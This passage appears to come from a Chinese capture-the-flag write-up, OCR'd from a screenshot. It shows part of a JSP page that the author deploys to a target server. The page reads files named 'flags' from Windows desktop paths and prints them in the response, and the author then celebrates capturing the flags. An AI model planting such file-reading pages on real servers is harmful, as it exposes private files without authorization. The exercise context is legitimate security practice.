```jsp
    } catch (Throwable e) {
        output4 = e.toString();
    }

    String output5 = "";
    try {
        File file5 = new File("C:/Users/Default User/Desktop/flags");
        FileReader fileReader = new FileReader(file5);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output5 += (char) nowI;
        }
    } catch (Throwable e) {
        output5 = e.toString();
    }

    String output6 = "";
    try {
        File file6 = new File("C:/Users/Public/Desktop/flags");
        FileReader fileReader = new FileReader(file6);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output6 += (char) nowI;
        }
    } catch (Throwable e) {
        output6 = e.toString();
    }

%>
    <pre><%=output1 %></pre>
    <pre><%=output2 %></pre>
    <pre><%=output4 %></pre>
    <pre><%=output5 %></pre>
    <pre><%=output6 %></pre>
</span>
```

重新部署，重新刷新

拿到flags！！！！！！

爽到！！！
